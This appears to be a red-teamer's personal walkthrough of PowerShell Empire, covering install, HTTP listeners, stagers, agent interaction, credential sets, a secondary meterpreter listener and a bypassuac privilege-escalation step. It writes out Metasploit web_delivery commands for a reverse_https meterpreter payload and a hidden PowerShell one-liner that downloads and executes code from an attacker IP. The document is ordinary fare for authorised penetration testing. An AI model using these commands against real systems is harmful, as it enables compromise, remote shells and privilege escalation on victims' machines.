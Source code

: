 # Empire
[Empire](https://github.com/adaptivethreat/Empire) is a "pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture."

Some links that helped me create my write-up below:

* [https://attackerkb.com/Powershell/Powershell_Empire](https://attackerkb.com/Powershell/Powershell_Empire)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)
* [CheatSheets for various modules](https://github.com/HarmJ0y/CheatSheets)

## Install

The [getting started guide](http://www.powershellempire.com/?page_id=110) walks you through a basic install - here's the quick steps:

    git clone https://github.com/adaptivethreat/Empire.git /opt/empire
    cd /opt/empire/setup
    ./install.sh
    /opt/empire/empire.sh

I found afterwards that my fresh Ubuntu droplet from Digital Ocean coughed up this error when I ran `./empire`:

>Traceback (most recent call last):

>File "./empire", line 6, in <module>

>from OpenSSL import SSL

>ImportError: No module named OpenSSL

Once I did a `sudo apt-get install python-openssl` then everything ran like a champ.

## Launch a listener
1. Type `listeners` and hit **Enter**
2. Setup an HTTP listener (for example) with `set Host http://your.local.ip.address` (tab completion works!).  *Note:* when running this on an AWS instance I found I needed to use FQDN instead of the IP address - i.e. use ec2-1-2-3-4.us-west-2.compute.amazonaws.com instead of 1.2.3.4.
3. Type `info` and hit Enter to confirm the listener is good to go.
4. Type `run` to run it (if you need to kill it, use `list` to see the list of listeners, then do `kill 1` or whatever the number is.

P.S. - [BHIS](http://bhis.co) has a nice tutorial for [scripting the startup of Empire listeners](http://www.blackhillsinfosec.com/?p=5428).

## Configure a stager
1. Type `usestager` and then hit **Tab** to see your options. I like the simple `usestager launcher` for a simple PowerShell one-liner
2. Assign the stager to a configured listener by typing `set Listener NAME-OF_LISTENER`
3. Type `generate` to actually generate it.

## Manage connected machines
Once you get a "bite" type `agents` to see connected machines.  Then do `interact NAME-OF-MACHINE` to begin interacting with it.

## Establish credential sets
I followed [this page](http://www.powershellempire.com/?page_id=114) to figure out how to add/edit credential sets into Empire so they're easily "pluggable" into Empire modules without having to type them every time.

## Create a secondary meterpreter listener
Follow [this article](http://www.powershellempire.com/?page_id=137) for more info, but basically in the `listeners` do a `set Host http://whatever.the.host.is` and `set Type meter`.  Then type `execute` and `list` to see your new listener.

Now on your Kali/Metasploit box, run the following commands to "catch" your incoming shell:

	use exploit/multi/script/web_delivery
	unset all
	set srvhost 0.0.0.0
	set srvport 80
	set lhost MY.PUBLIC.IP.ADDRESS
	set lport 443
	set target 2
	set payload windows/x64/meterpreter/reverse_https
	exploit -j

This will give you a PowerShell one-liner with something like:

`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://your-public-ip-address/V23fasdfg4rP5XBryb');
`
Launch the one-liner and you should be in happy shell land!

## Elevating privs
Once you've figured out a way to make your limited account a local admin, here's how you can make your victim machine connect to you *again* but this time with more privs!

1. While interacting with your agent, issue the command `bypassuac NAME-OF-LISTENER`.  So for example, my listener with my initial shell was called `test` so I issued `bypassuac test`
2. You should see a "new" agent connect to your listener, but this one has a *`*`* by it, indicating it is running w/elevated privs!!!

## Other resources:
* [Intercepting passwords with Empire and winning!](https://sensepost.com/blog/2016/intercepting-passwords-with-empire-and-winning/)
